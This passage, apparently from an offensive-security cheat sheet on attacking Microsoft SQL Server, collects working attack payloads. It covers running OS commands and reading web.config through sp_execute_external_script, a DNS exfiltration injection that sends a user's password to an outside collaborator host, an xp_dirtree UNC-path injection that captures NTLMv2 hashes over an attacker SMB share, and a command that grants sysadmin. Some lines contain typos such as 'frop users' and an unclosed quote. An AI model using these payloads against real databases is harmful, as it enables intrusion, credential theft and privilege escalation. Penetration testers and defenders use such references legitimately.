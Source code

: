 To interact with the MSSQL instance.

```powershell
sqsh -S 192.168.1.X -U sa -P superPassword
python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
```

Execute Python script 

> Executed by a different user than the one using xp_cmdshell to execute commands

```powershell
#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```

## MSSQL Out of band

### MSSQL DNS exfiltration

Technique from https://twitter.com/ptswarm/status/1313476695295512578/photo/1

```powershell
1 and exists(select * from fn_trace_gettable('\\'%2b(select pass frop users where id=1)%2b'.xxxxxxx.burpcollaborator.net\1.trc',default))
```


### MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

## MSSQL Make user DBA (DB admin)

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## MSSQL Trusted Links
